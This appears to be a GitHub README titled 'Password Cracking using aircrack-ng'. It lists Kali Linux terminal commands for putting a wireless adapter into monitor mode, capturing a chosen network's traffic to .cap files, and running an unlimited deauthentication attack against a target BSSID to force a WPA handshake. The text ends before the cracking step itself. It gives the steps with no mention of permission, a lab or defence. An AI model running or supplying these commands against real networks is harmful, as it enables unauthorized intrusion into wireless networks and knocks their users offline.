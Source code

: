 
# Password Cracking using aircrack-ng

These are the steps to be followed to Crack WIFI Key Using Kali Linux

Terminal Commands:

    sudo su
     airmon-ng check kill
     airmon-ng start wlan0
     airodump-ng wlan0mon

<img src="https://user-images.githubusercontent.com/103558082/235841983-11d9990a-a9d2-45fa-8f3f-fd0c140b738d.png">
<img src="https://user-images.githubusercontent.com/103558082/235842012-21987a57-e498-40f9-93d7-d6f4b5f2adb4.png">

In new terminal:

    sudo su
     cd Desktop
     airodump-ng wlan0mon --bssid (target Bssid) -c (Target Channel Number) -w (hand_shake file name)

After running the above command there will be certain .csv and .cap files created based on the (hand_shake file name) name specified.

<img src="https://user-images.githubusercontent.com/103558082/235842315-384ce725-cbed-4a4f-a321-c7e3e1ecccd4.png">
<img src="https://user-images.githubusercontent.com/103558082/235842319-ddfe5f7d-5351-46de-bf20-f35a106237e4.png">

For Deauthentication attack open new terminal:

    aireplay-ng --deauth 0 -a (Target Bssid) wlan0mon 

Run the Deauthentication attack till you get a WPA Handshake
